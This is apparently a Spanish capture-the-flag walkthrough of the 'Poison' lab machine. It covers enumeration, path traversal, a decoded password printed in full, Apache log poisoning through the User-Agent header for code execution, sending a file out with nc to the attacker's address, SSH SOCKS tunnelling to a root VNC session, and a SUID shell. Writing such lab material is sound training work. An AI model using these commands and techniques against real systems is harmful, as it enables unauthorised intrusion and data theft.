# Poison



```bash
sudo nmap --script http-enum 10.129.1.254
```



- Whatweb
http://10.129.1.254 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[FreeBSD][Apache/2.4.29 (FreeBSD) PHP/5.6.32], IP[10.129.1.254], PHP[5.6.32], X-Powered-By[PHP/5.6.32]

- Qué es FreeBSD



- 80
Encontramos una web de testeo de scripts en .php



Nos deja ejecutar scripts
```bash
http://10.129.1.254/browse.php?file=pwdbackup.txt
```

Si ejecutamos *listfiles.php* encontramos un **pwdbackup.txt**



Escribimos pwdbackup.txt y nos da una contraseña que parece estar en base64



Se nos dice que ha sido encodeada 13 veces

- Nos montaremos un script que decodee 13 veces en base 64 la cadena



Lo ejecutamos y nos irá reportando las cadenas decodeadas hasta obtener una contraseña



**Charix!2#4%6&8(0**

- De momento no tenemos usuario válido para probar por ssh
Intentamos enumerar con algún script ya que la versión de ssh < 7.7
No conseguimos enumerar ningún usuario interesante
- Volvemos a la web y vemos que si intentamos ejecutar un script sin pasarle el nombre nos eporta un error del que sacamos información de directorios



/usr/local/www/apache24/data/browse.php
/usr/local/www/apache24/data/browse.php

- Intentamos un Path Traversal



Acontece el path traversal -> Lo llevamos a curl para ver bien el resultado



- Vemos un usuario *charix* que encaja sospechosamente bien con la contraseña que encontramos anteriormente

- Entramos por ssh
```bash
ssh charix@10.129.1.254
```

Charix!2#4%6&8(0
charix

#### OTRA FORMA

- Podemos acceder a los logs de apache -> Es apache pero no como tal, sino FreeBSD, buscaremos en google en qué directorio están los logs de FreeBSD porque en apache normal suelen ser */var/log/apache2/access.log* o */var/log/auth.log*
Encontramos para FreeBSD -> **/var/log/httpd-access.log**
Si accedemos:



Efectivamente vemos los logs de apache

- Esto nos permitirá acontecer un **log poisoning** -> Por el nombre de la máquina tiene sentido que vaya por ahí la cosa



- Vemos que lo que se reporta en los logs de Apache es el **User-Agent** lo cual es manipulable por nosotros
Podemos intentar subir código PHP en el *User-Agent*



Si consultamos el log, parece que ejecuta el código pero no le hemos pasado valor al comando cmd



- Si ahora anexamos a la url la variable *cmd=id* por ejemplo



Se acontece el RCE



Obtenemos acceso a
www

- Migramos a Charix con las credenciales
Charix

## Escalada

- El sistema es FreeBSD, no es linux como tal, no tiene una shell normal, tendremos que tratarla de otra forma porque no nos deja hacer
```bash
script /dev/null -c bash
```

- Miramos las shells que existen
```bash
cat /etc/shells
```



No hay shell, poco hay que hacer

- Encontramos un secret.zip
Nos lo pasamos a nuestra máquina
*/dev/tcp/* -> no existe
Nos ponemos en escucha desde nuestra máquina con nc
```bash
nc -nlvp 443 > secret.zip
```

Lo pasamos con nc
```bash
nc 10.10.16.179 443 < secret.zip
```

- Comprobaremos la integridad de los archivos buscando un comando *md5*



- Descomprimimos el zip
```bash
unzip secret.zip
```

Nos pide una contraseña
Probamos con la de charix
Charix!2#4%6&8(0



��[|Ֆz!

- Probamos que sea la passwd para root pero no

- Vemos el contenido en hexadecimal, y con los primeros 8 dígitos (magic numbers) buscamos en wikipedia para ver el tipo de archivo que es *List of file signatures*



- https://en.wikipedia.org/wiki/List_of_file_signatures
No es ninguno, por lo que parece un secreto o algo que no conocemos

- Enumeramos procesos y puertos
```bash
ps -faux
```



Vemos un proceso corrido por root llamado **tightvnc**

- Qué es Thightvnc



Puertos por defecto



- Buscamos puertos abiertos en la máquina
```bash
netstat -na -p tcp
```



Abiertos el 5801 y el 5901
Coincidencia sospechosa

- Usaremos una herramienta llamada *vncviewer*



Podemos dar un archivo de contraseña -> Puede ser el **secret** que hemos exportado

- Los puertos 5801 y 5901 no están accesibles desde fuera, asique haremos **DINAMIC** port forwarding con ssh
1. Añadiremos a */etc/proxychains4.conf*  la línea
```bash
socks4 127.0.0.1 1080
```


2. Aplicaremos el Dinamic Port Forwarding con ssh
```bash
ssh charix@10.129.1.254 -D 1080
```

- Con el Dinamic port forwarding podremos apuntar a más de un puerto, en este caso nos conviene porque hay 5801 y 5901, a diferencia del Local Port Forwarding que solo apunta a un puerto de la máquina víctima



Remote Port Forwarding sería conectándonos nosotros desde la máquina víctima hacia nuestra máquina con
```bash
ssh qarlg@<MiIP> -R ..:..:..
```

Pero tendríamos que poner nuestra contraseña y no mola

- Ahora a través de **proxychains** tunelizamos el comando de *vncviewer* para conectarnos al proceso que ahora corre en nuestra máquina por el port forwarding
```bash
proxychains vncviewer -passwd secret 127.0.0.1:5901
```



Parece que nos hemos conectado de forma remota a root

- Damos permiso SUID a la **sh**



-
```bash
sh -p
```



root
